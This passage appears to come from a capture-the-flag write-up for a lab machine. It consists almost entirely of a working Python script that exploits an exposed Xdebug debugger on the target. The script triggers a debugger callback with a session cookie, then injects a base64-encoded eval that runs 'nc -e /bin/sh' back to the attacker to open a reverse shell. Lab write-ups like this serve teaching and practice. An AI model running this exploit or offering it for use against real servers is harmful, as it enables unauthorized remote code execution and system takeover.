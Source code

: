 Wrote script to get shell as www-data, `get_olympic_www_shell.py`

```

#!/usr/bin/env python3

from base64 import b64encode
import requests
import socket
import sys

if len(sys.argv) != 2:
    print("{} [nc port]".format(sys.argv[0]))
    sys.exit()

def get_my_ip():
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    s.connect(("10.10.10.1", 80))
    return s.getsockname()[0]

ip = get_my_ip()
port = sys.argv[1]

print("[!] Have nc listening on {}".format(port))

# Start Listener
local_ip = "0.0.0.0"
local_port = 9000
print("[*] Starting listener on {}:{}".format(local_ip, local_port))
s = socket.socket()
s.bind((local_ip, local_port))
s.listen(10)
print("[+] Listening...")

# Tip server to call back
print("[*] Sending request to tip xdebug")
try:
    r = requests.get("http://10.10.10.83/index.php",
                 headers={"Cookie": "XDEBUG_SESSION=wpOCvcWXx5"},
                timeout=2)
except:
    pass

# Catch callback
conn, addr = s.accept()
client_data = conn.recv(1024)
print("[+] Connection received from {}:{} on port {}".format(addr[0], addr[1], local_port))
cmd = 'system("nc -e /bin/sh {} {}")'.format(ip, port).encode('utf-8')
print("[*] Sending command get shell on port {}".format(port))
conn.sendall(('eval -i 1 -- %s\x00' % b64encode(cmd).decode('utf-8')).encode('utf-8'))

print("[*] Cleaning up. Should have callback")
s.close()
conn.close()

```
